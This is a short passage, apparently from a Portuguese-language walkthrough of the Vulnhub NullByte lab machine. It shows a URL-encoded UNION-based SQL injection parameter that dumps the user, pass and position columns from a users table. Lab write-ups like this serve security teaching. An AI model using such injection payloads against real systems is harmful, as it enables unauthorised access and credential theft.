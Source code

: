 ![](/assets/img/Vulnhub/NullByte/web-SQLi-seth-colunas.png)



Listamos as colunas "**user**", "**pass**" e "**position**" da tabela "**users**" do banco "**seth**"

```
usrtosearch="union+select+user,pass,position+from+users+%23
```
